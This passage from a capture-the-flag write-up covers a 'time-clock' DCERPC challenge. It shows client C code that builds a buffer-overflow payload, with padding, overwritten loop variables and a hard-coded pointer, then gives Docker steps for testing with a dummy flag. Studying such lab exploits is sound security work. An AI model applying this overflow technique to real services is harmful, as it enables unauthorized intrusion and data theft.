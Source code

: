 ## Exploit

One small problem is that, with provided client UI, we can not directly change
the `report_name` that is sent via DCERPC. As this is a one-off, we will put the
payload directly in the client code instead.

Updated `main()` function in `src/client.c`:

```c
    (…)
    } else if (strcmp(argv[1], "report") == 0) {
        idl_char* report;

        ///// EXPLOIT
        char report_name[1024+136+4+4+8];
        memset(&report_name[0], 'R', 1024);                       // report_buf
        memset(&report_name[1024], 'E', 136);                     // entry_buf
        memset(&report_name[1024+136], 'I', 4);                   // i
        memset(&report_name[1024+136+4], 'L', 4);                 // l
        *(long*)(&report_name[1024+136+4+4]) = 0x406460 - 1176;   // *buf
        GetWorkReport(time_server, sizeof(report_name), report_name, &report);
        ///// EXPLOIT

        // GetWorkReport(time_server, 11, "Work Report", &report);
        printf("Work report: \n%s\n", report);
    } else if (strcmp(argv[1], "flag") == 0) {
    (…)
```

Note that by using DCERPC binary / modifying the client code it is actually
*easier* to pass this payload, as we don't have to worry how to send zero bytes
for new value of `buf_ptr`. If we tried to exploit regular interface (e.g. by
passing long user names), we would struggle with squeezing these zeros as a
command line argument. 

## Test

*   Add a dummy flag to the `entrypoint.sh` startup script:

    ```bash
    (…)
    echo "Starting dcerpc server"
    FLAG="shc2024{this_is_a_test_flag}" /code/time-clock/time-clock-server
    (…)
    ```

*   Clean up, rebuild an restart the Docker image

    ```
    $ docker kill $(docker ps -ql)
    $ docker build -t time-clock:latest .
    $ docker run -p 5555:5000 -d time-clock:latest
    ```
